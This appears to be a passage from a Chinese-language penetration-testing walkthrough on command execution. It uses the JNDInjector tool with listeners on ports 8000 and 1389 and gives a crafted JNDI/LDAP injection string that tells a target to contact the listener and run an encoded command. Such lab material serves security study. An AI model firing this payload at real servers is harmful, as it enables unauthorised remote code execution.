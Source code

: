 



## 0x02 命令执行

JNDInjector v1.1下载链接：

https://github.com/rebeyond/JNDInjector/releases



JNDInjector v1.1 开启监听，确保HTTP监听端口8000，和LDAP端口监听1389

![image-20240605154516836](assets/image-20240605154516836.png)



构包

`${jndi:ldap://192.168.64.1:1389/cHzHTdZTWy/Plain/Exec/eyJjbWQiOiJpcCBhZGRyIn0=}`
